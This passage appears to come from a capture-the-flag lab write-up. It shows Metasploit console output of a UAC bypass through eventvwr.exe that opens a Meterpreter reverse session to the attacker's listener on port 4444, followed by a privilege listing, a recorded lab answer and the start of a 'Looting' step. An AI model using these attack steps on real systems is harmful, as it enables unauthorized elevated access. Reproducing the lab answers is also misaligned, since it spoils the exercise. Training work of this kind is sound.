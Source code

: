 ```
[*] Executing payload: C:\Windows\SysWOW64\eventvwr.exe
[+] eventvwr.exe executed successfully, waiting 10 seconds for the payload to execute.
[*] Sending stage (175174 bytes) to 10.10.170.20
[*] Meterpreter session 2 opened (<OPENVPN_IP>:4444 -> 10.10.170.20:49215) at 2021-04-20 19:54:34 +1000
[*] Cleaning up registry keys ...

meterpreter > sessions 
Usage: sessions <id>

Interact with a different session Id.
This works the same as calling this from the MSF shell: sessions -i <session id>

meterpreter > sessions -i 2
Usage: sessions <id>

Interact with a different session Id.
This works the same as calling this from the MSF shell: sessions -i <session id>

meterpreter > sessions 2
[*] Session 2 is already interactive.
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeBackupPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeCreatePagefilePrivilege
SeCreateSymbolicLinkPrivilege
SeDebugPrivilege
SeImpersonatePrivilege
SeIncreaseBasePriorityPrivilege
SeIncreaseQuotaPrivilege
SeIncreaseWorkingSetPrivilege
SeLoadDriverPrivilege
SeManageVolumePrivilege
SeProfileSingleProcessPrivilege
SeRemoteShutdownPrivilege
SeRestorePrivilege
SeSecurityPrivilege
SeShutdownPrivilege
SeSystemEnvironmentPrivilege
SeSystemProfilePrivilege
SeSystemtimePrivilege
SeTakeOwnershipPrivilege
SeTimeZonePrivilege
SeUndockPrivilege
```
**Answer**: `SeTakeOwnershipPrivilege`
## Looting
### What's the name of the printer spool service?
```
meterpreter > ps

Process List
============

```